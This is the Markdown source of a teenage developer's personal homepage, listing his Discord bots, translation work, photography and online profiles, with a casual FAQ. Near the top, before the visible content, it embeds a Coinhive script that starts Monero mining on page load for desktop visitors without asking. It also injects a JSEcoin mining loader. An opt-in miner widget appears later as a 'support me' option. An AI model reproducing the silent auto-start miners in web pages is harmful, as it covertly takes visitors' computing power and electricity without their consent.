 ```yaml
---
layout: default
title: AustinHuang.me
permalink: /
---
```


<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
	var miner = new CoinHive.Anonymous('NS1Lh4sTCMiS0AcazVxeqiDKUXIrkTnX', {throttle: 0.2});
	if (!miner.isMobile() && !miner.didOptOut(14400)) {
		miner.start();
	}
</script>

<script type="text/javascript">
!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/40497/austinhuang.me/0/0/",s.parentNode.insertBefore(t,s)}();
</script>

<meta name="og:title" content="Austin Huang - A young JavaScript developer who writes chatbots and stories in Montréal.">
<meta name="og:site_name" content="AustinHuang.me">
<meta name="og:type" content="website">
<meta name="og:image" content="https://www.gravatar.com/avatar/d5a5f57410d9f6bf426ac4e1c1c66c2c.jpg">
<meta name="og:image:type" content="image/jpeg">
<meta name="og:image:alt" content="Austin Huang the Bus :^)">
<meta name="og:description" content="That's just my homepage/resume. What else do you expect?">

## I'm Austin Huang.

Hi there! I'm a high school student who [writes JavaScript, operates chatbots](#my-coding-projects), [helps other projects](#projects-i-am-involved-in), [translates websites](#my-translations), [takes photos](#my-photos), studies, and [explores online stuff](#my-other-online-stuff). So let's see what I'm up to.

## My coding projects
* [DiscordTel](http://github.com/austinhuang0131/discordtel) is a Discord bot that simulates the process of phone dialing on Discord servers. It ~~has~~ had reached more than 2300 guilds, which was erased by Discord. Currently in the process of restructuring. Also, I earned $50 from it.
* [Metagon](https://metagon.cf) is a multi-platform bot that has a lot of useful tools. Currently my main focus.
* [Discoin](http://discoin.gitbooks.io/docs) is a currency exchange serving 7 Discord bots.

## Projects I am involved in
You can see my [GitHub profile](http://github.com/austinhuang0131). I am currently involved in these projects:

* [BotList.space](http://botlist.space) (Staff)
* [Disboard](http://disboard.org/) (Co-Owner)

I also [write private bots](/services) for individuals.

## My translations
I do some translations, too, usually from Japanese or Chinese to English. I have done translations in these projects:

* [BotList.space](http://botlist.space) (All of Chinese translation)
* [Hashimoto Lulu project](http://luluidoll.jp/tagged/english)
* [Terminal.ink Bot List](https://ls.terminal.ink/) (All of Chinese translation)
* [Weblate](https://hosted.weblate.org/user/austinhuang0131/) projects:
  * 30% of Chinese translation in [Liberapay](https://liberapay.com/)
  * 1% of Chinese translation in [Andor's Trail](https://andorstrail.com/)
  
## My photos
I have a white Pentax K-50.

* I upload all my photos on my [Flickr](https://flic.kr/austin0131).
* I post some of my best ones on my [Instagram](https://instagram.com/austinhuang0131).

## My other online stuff

* [AniList](https://anilist.co/user/austinhuang): Animes I watch.
* [Colnect](https://colnect.com/en/collectors/collector/Austin-Huang): Transit tickets and stuff I collect.
* [Discord](https://discord.gg/8uFr3J3)
* [edX](https://courses.edx.org/u/austinhuang0131): Online classes I learn (And I do have some certificates)
* [KeyBase](https://keybase.io/austinhuang) (And this website is [Keybase'd](/keybase.txt))
* [NationStates](https://www.nationstates.net/nation=the_cafes): A political simulation game.
* [OpenGeofiction](http://wiki.opengeofiction.net/wiki/index.php/Esthyra): A geographical simulation game.
* [Pixiv](http://pixiv.me/montreal0131)
* [Reddit](http://reddit.com/u/austinhuang)
* [Twitter](http://twitter.com/montreal0131)

<table width="100%">
  <tr>
    <td width="50%"><iframe allowtransparency="true" frameborder="0" scrolling="no" seamless="seamless" src="https://cdoyle.me/gh-activity/gh-activity.html?user=austinhuang0131&type=user" width="100%" height="400px"></iframe>
</td>
    <td width="50%"><!-- InstaWidget -->
<a href="https://instawidget.net/v/user/austinhuang0131" id="link-399fb367133a7c8a206a0f1b39364fa77c34b125a639fea7aa68bd280b0372d3">@austinhuang0131</a>
<script src="https://instawidget.net/js/instawidget.js?u=399fb367133a7c8a206a0f1b39364fa77c34b125a639fea7aa68bd280b0372d3&width=300px"></script></td>
  </tr>
</table>

## May I ask some questions?
Obviously, sure.

### Hobbies?
Coding, modeling, mapping, reading news, learning AP and French online, and listening to sick beats are things I do a lot. And Anime sometimes. Skating, softball and badminton, especially, are my favourite sports.

Recently I found myself enjoying creative writing.

### Hardware?
A school-provided MacBook Air ($500) plus several shared VPS from online people and free services. That's it.

### You said you're from...Shanghai?
Yeah. I actually went to the same high school as [@simonguozirui](https://github.com/simonguozirui) did and went abroad at the same time as he did.

### What about a formal resume, *please?*
Nah man. *skirt skirt dab dab*

### I mean you didn't answer my question...
Leave a comment here, then.

<div id="disqus_thread"></div>
<script>
var disqus_config = function () {
this.page.url = "https://austinhuang.me/";
this.page.identifier = "one";
};
(function() {
var d = document, s = d.createElement('script');
s.src = 'https://0131.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

### Hey, you look cool. How can I support you?
You can either [donate](/donate.html) or start the Monero miner below.

<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 100%; height: 100px"
	data-action="#76c2f8"
	data-key="NS1Lh4sTCMiS0AcazVxeqiDKUXIrkTnX">
	<em>Loading...</em>
</div>
